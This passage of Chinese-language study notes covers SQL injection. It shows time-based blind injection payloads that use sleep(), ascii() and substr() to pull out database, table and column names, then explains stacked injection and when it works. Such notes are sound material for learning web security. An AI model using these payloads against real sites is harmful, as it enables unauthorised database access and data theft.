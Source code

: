 当判断完是何种闭合方式之后，可以结合`length()`、`ascii()`和`substr()`等函数去进一步判断数据库名长度，数据库名

~~~bash
# 常见的注入语句(Payload)
?id=1' and if(length(database())>8, sleep(2), 0) --+               # 判断数据库名长度
?id=1' and if(ascii(substr(database(),1,1))=115,sleep(2),0) --+    # 通过ASCII码，判断数据库的第一个字母，然后通过改变截取的字符，进一步判断库名
# 判断表名
?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema="security" limit 0,1),1,1))=101,sleep(2),0) --+
# 判断列名
?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_name="users" and table_schema=database() limit 0,1),1,1))=105,sleep(2),1) --+
~~~

#### 堆叠注入

[第30天：WEB攻防-通用漏洞&SQL注入&CTF&二次&堆叠&DNS带外 - 解放者-cracer - 博客园](https://www.cnblogs.com/haorancracker/articles/17695948.html)

[Sql注入详解(原理篇)_sql注入攻击的原理-CSDN博客](https://blog.csdn.net/weixin_45954730/article/details/131525362)

[SQL 注入总结 - han个人博客](https://meethanmj.github.io/2019/09/07/sqlSum/#外带查询原理)

[堆叠注入详解 - 渗透测试中心 - 博客园](https://www.cnblogs.com/backlion/p/9721687.html)

* 堆叠注入原理
  Stacked injection汉语翻译过来后，称为堆查询注入，也称之为堆叠注入，顾名思义，就是将语句堆叠在一起进行查询。在PHP中，mysql_multi_query()支持多条sql语句同时执行，分号;是用来表示一条sql语句的结束。当我们在;结束一个sql语句后继续构造下一条语句，使其执行，就构成了堆叠注入。

![在这里插入图片描述](.\SQL注入原理.assets\71d3bf9d61848e26371c5d32ab8a7460.png)

* 堆叠注入的局限性
  堆叠注入的触发条件很苛刻，在实际中遇到的很少，其可能受到API或者数据库引擎，又或者权限的限制只有当调用数据库函数支持执行多条sql语句并且目标未对;号进行过滤时才能够使用，在PHP中利用mysqli_multi_query()函数就支持多条sql语句同时执行，但实际情况中，如PHP为了防止sql注入机制，往往使用调用数据库的函数是mysqli_ query()函数，其只能执行一条语句，分号后面的内容将不会被执行，所以可以说堆叠注入的使用条件十分有限，
